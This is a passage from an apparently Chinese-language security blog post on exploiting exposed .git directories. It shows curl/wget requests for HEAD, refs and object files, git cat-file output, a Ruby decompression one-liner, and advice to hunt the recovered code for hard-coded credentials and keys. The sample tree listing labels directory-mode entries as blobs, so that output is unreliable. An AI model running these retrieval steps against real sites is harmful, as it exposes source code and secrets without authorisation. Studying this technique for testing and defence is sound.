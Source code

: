 从Web上就是：

```shell
&gt; curl http://xxx.com/.git/HEAD
&gt; curl http://xxx.com/.git/refs/heads/master
&gt; wget http://xxx.com/.git/objects/0a/66452433322af3d319a377415a890c70bbd263
&gt; git cat-file -t 0a66452433322af3d319a377415a890c70bbd263
commit
&gt; git cat-file -p 0a66452433322af3d319a377415a890c70bbd263
tree 0a72e6850ef963c6aeee4121d38cf9de773865d8
```

.git/refs/heads/master 文件将指向您存储提交目录树的相应对象哈希。可以看到该对象是一个提交，并且与树对象 0a72e6850ef963c6aeee4121d38cf9de773865d8 关联。

继续检查存储在 0a72e6850ef963c6aeee4121d38cf9de773865d8 的树对象时：

```shell
&gt; git cat-file -p 0a72e6850ef963c6aeee4121d38cf9de773865d8
100644 blob 6ad5fb6b9a351a77c396b5f1163cc3b0abcde895 .gitignore
040000 blob 4b66088945aab8b967da07ddd8d3cf8c47a3f53c source.py
040000 blob 9a3227dca45b3977423bb1296bbc312316c2aa0d README
040000 tree 3b1127d12ee43977423bb1296b8900a316c2ee32 resources
```

您会发现一些源代码文件和其他对象树来探索。

在远程服务器上，您发现不同文件的请求看起来更像是这样：

```shell
https://project.com/.git/HEAD 					# 判断 HEAD
https://project.com/.git/refs/heads/master 		# 找到 HEAD 中存储的对象
https://project.com/.git/objects/0a/72e6850ef963c6aeee4121d38cf9de773865d8  # 访问与commit相关联的tree
https://project.com/.git/objects/9a/3227dca45b3977423bb1296bbc312316c2aa0d # 下载 README 文件中存储的源代码
```

在这样的远程服务器上，您需要在读取下载的目标文件之前对其进行解压缩。这可以使用 Ruby 来完成：

```
ruby -rzlib -e &#39;print Zlib::Inflate.new.inflate(STDIN.read)&#39; &lt; OBJECT_FILE
```

## 敏感信息

之后就是从git泄露中去寻找有用的敏感信息，包括硬编码凭证、加密密钥和开发人员评论可快速了解系统。

## 参考文件

- [Hacking Git Directories](https://medium.com/swlh/hacking-git-directories-e0e60fa79a36)
- [Exposed .git Directory Exploitation](https://infosecwriteups.com/exposed-git-directory-exploitation-3e30481e8d75)



---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/git%E6%B3%84%E9%9C%B2%E6%96%87%E4%BB%B6%E8%BF%98%E5%8E%9F/  

